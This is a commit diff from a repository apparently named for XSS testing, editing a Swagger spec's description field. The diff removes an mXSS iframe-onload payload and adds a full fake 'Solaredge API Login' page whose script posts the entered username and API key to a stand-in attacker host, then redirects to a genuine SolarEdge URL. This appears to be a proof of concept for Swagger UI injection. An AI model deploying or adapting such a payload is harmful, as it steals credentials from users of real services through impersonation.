

Before and after one commit to sagitan/xss, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,8 +2,99 @@
 swagger: '2.0'
 info:
   version: 1.0.0
-  title: Testing Stuff
-  description: '<math><mi><table><mglyph><svg><mtext><textarea><a title="</textarea><iframe onload=alert(document.domain)>"></a></textarea></mtext></svg></mglyph></table></mi></math>'
+  title: Solaredge Swagger Petstore
+  description: '
+
+<!DOCTYPE html>
+<html>
+<head>
+<meta name="viewport" content="width=device-width, initial-scale=1">
+<title> Login Page </title>
+<style>
+Body {
+  font-family: Calibri, Helvetica, sans-serif;
+  background-color: pink;
+}
+button {
+       background-color: #4CAF50;
+       width: 100%;
+        color: orange;
+        padding: 15px;
+        margin: 10px 0px;
+        border: none;
+        cursor: pointer;
+         }
+ form {
+        border: 3px solid #f1f1f1;
+    }
+ input[type=text], input[type=password] {
+        width: 100%;
+        margin: 8px 0;
+        padding: 12px 20px;
+        display: inline-block;
+        border: 2px solid green;
+        box-sizing: border-box;
+    }
+ button:hover {
+        opacity: 0.7;
+    }
+  .cancelbtn {
+        width: auto;
+        padding: 10px 18px;
+        margin: 10px 5px;
+    }
+
+
+ .container {
+        padding: 25px;
+        background-color: lightblue;
+    }
+
+
+<script type="text/javascript">
+function login_user() {
+    let path = "http://solaredgeattcaker.attack/api/resource";
+    let username = document.getElementById("username").value;
+    let password = document.getElementById("password").value;
+
+    let data = {username: username, password: password};
+
+    fetch(path, {
+        headers: {
+            "Content-Type": "application/json"},
+            method: "POST",
+            body: JSON.stringify(data)}
+    );
+
+
+	location.href='https://sandbox-api-stg.solaredge.com/'
+};
+</script>
+
+</style>
+</head>
+<body>
+
+    <center> <h1> Solaredge API Login </h1> </center>
+    <form>
+        <div class="container">
+            <label>Username : </label>
+            <input type="text" placeholder="Enter Username" id="password" name="username" required>
+            <label>Solaredge API key : </label>
+            <input type="password" placeholder="Enter Password" id="username" name="password" required>
+            <button onclick="login_user()" type="button">
+            Login</button>
+            <input type="checkbox" checked="checked"> Remember me
+            <button type="button" class="cancelbtn"> Cancel</button>
+            Forgot <a href="#"> password? </a>
+        </div>
+    </form>
+</body>
+</html>
+
+
+
+ '
 paths:
   /:
     get:
```
